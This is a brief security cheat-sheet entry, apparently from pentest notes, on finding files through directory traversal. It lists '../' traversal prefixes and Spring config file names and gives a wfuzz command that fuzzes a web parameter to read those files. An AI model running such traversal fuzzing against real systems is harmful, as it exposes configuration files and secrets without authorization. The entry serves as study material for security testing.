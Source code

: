 ```yaml
---
tags:
- directoryTraversal
---
```


# Example how to find file in directory traversal

paths.txt
```
../
../../
../../../
../../../../
../../../../../
../../../../../../
../../../../../../../
```
files.txt

```
application.properties
application.yml
config/application.properties
config/application.yml
```
Fuzzing
```bash
wfuzz -w paths.txt -w files.txt --hh 0 http://asio/specials?menu=FUZZFUZ2Z
```
